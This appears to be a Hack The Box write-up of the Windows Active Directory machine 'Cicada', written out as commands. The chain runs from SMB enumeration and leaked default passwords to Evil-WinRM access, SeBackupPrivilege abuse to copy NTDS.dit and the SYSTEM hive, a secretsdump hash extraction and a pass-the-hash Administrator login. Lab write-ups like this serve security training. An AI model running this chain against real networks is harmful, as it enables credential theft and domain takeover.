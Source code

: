 ```yaml
---
layout: post
title: Cicada - HackTheBox
date: 2024-13-13 19:25:40
description: Writeup for a Box in HackTheBox
tags: windows
categories: htb
---
```


# Cicada  

**Author:** p4pa  
**Platform:** Hack The Box (Easy)  

## Reconnaissance

### NMAP

Starting with **Nmap**, I scanned the target to identify any open ports and services. This would guide my initial approach, helping me focus on the services that might allow further access.

```bash
nmap -Pn 10.10.11.35
```

This scan revealed a range of open ports, suggesting a **Windows environment** with possible Active Directory (AD) involvement, given the presence of SMB, LDAP, and Kerberos ports:

```bash
PORT     STATE SERVICE
53/tcp   open  domain            # DNS
88/tcp   open  kerberos-sec      # Kerberos
135/tcp  open  msrpc             # RPC
139/tcp  open  netbios-ssn       # NetBIOS
389/tcp  open  ldap              # LDAP
445/tcp  open  microsoft-ds      # SMB
464/tcp  open  kpasswd5          # Kerberos password change
593/tcp  open  http-rpc-epmap    # HTTP RPC endpoint mapper
3268/tcp open  globalcatLDAP     # Global Catalog LDAP
3269/tcp open  globalcatLDAPssl  # Global Catalog LDAP over SSL
```

To gain more insight, I ran an **Nmap service scan** on these ports, aiming to detect version details and confirm any AD clues.

```bash
nmap -p 53,88,135,389,445,464,593,3268,3269 -sV 10.10.11.35 -Pn
```

---

### LDAP and SMB

I started with **LDAP** as it can sometimes allow anonymous binding, giving access to AD information. Here, however, **anonymous bind was denied**, indicating that authentication was required.

```bash
ldapsearch -H ldap://10.10.11.35:389 -x
```

Next, I explored **SMB**. Using `smbclient`, I listed available shares and tried accessing them without credentials. This worked for several shares, but only **HR** allowed anonymous access.

```bash
smbclient -L //10.10.11.35 -N
```

Listing the contents of `HR`, I found a file called *"Notice from HR.txt"*:

```bash
smb: \> ls
Notice from HR.txt
```

Opening it revealed what appeared to be **default credentials** for new hires:

```plaintext
Your default password is: Cicada$M6Corpb*@Lp#nZp!8
```

This was promising, as it implied we might have found a valid **AD account credential**.

### RPC Enumeration

With this initial password in hand, I turned to **RPC**. First, I attempted **anonymous enumeration** via `rpcclient`:

```bash
rpcclient -U "" 10.10.11.35
```

However, I didn’t have the required permissions for user enumeration as an anonymous user. Using the **default HR credentials**, I was able to log in successfully, though I still couldn’t enumerate all users without higher permissions.

### HTTP and RPC Endpoint Analysis

The **HTTP endpoint on port 593** was notable as it provided **RPC over HTTP**—an older service that can sometimes leak endpoint information. Running a scan revealed multiple endpoints, including:

- **LiveIdSvc RPC** - potentially related to Microsoft account authentication.
- **Group Policy RPC Interface** - could be useful if it holds misconfigured policies.
- **MS NT Directory DRS Interface** - ties into AD replication, hinting that this machine might indeed be a domain controller.

---

## SMB User Enumeration with NXC

At this point, I reached out to a friend ([Co3lho](https://github.com/Co3lho22)) who recommended **NXC**, a helpful tool for SMB enumeration, especially within AD environments. NXC’s **RID-brute** functionality can reveal domain users by brute-forcing their relative IDs (RIDs).

```bash
nxc smb -u 'asdf' -p '' --rid-brute 20000 10.10.11.35
```

The enumeration yielded several accounts, including **michael.wrightson**. I attempted to log in using the **HR default password**:

```bash
nxc smb 10.10.11.35 -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8'
```

After gaining access with Michael’s credentials, I used **NXC to enumerate other users**. This resulted in the discovery of **David Orelious’s credentials**:

- Username: `david.orelious`
- Password: `aRt$Lp#7t*VQ!3`

Testing David’s login on SMB, I found he had access to a **DEV share**, where I discovered a **backup script**. Reviewing this script yielded even more credentials:

```plaintext
emily.oscars
Q!3@Lp#M6b*7t*Vt
```

---

## Privilege Escalation and Reverse Shell

With **Emily Oscars’ credentials** in hand, I decided to try for a remote session with **Evil-WinRM**.

```bash
evil-winrm -i 10.10.11.35 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
```

After logging in, I checked her **privileges** using `whoami /priv`. The output showed **SeBackupPrivilege** and **SeRestorePrivilege**, which are essential for accessing and modifying files usually restricted to admins:

```plaintext
SeBackupPrivilege
SeRestorePrivilege
```

### Directory Discovery and Privilege Escalation with SeBackupPrivilege

Having **SeBackupPrivilege** meant I could attempt to access otherwise restricted system files, like `NTDS.dit`, which holds AD data. To exploit this, I wrote a **diskshadow script** to mount the C drive:

```plaintext
set metadata C:\Windows\Temp\meta.cab
add volume C: alias cdrive
expose %cdrive% E:
```

Using **diskshadow** with this script allowed me to mount the drive for backup:

```bash
diskshadow /s backup_script.txt
```

### Extracting NTDS.dit with Robocopy

Once mounted, I used **Robocopy** to copy `NTDS.dit` and acquire **encrypted AD user data**:

```bash
robocopy /b E:\Windows\ntds . ntds.dit
```

I also needed the **SYSTEM registry hive** to decrypt these hashes, so I saved it using the **reg save** command:

```bash
reg save hklm\system C:\Users\emily.oscars.CICADA\Documents\system.bak
```

### Dumping Administrator Hash

I downloaded `ntds.dit` and `system.bak`, then used **Impacket’s secretsdump** to extract the **Administrator NTLM hash**:

```bash
impacket.secretsdump -ntds ntds.dit -system system.bak local
```

Finally, with the Administrator hash, I logged in using Evil-WinRM to access the Administrator account:

```bash
evil-winrm -i 10.10.11.35 -u Administrator -H <hash>
```

**Flag:** The **root flag** was located in `root.txt`.
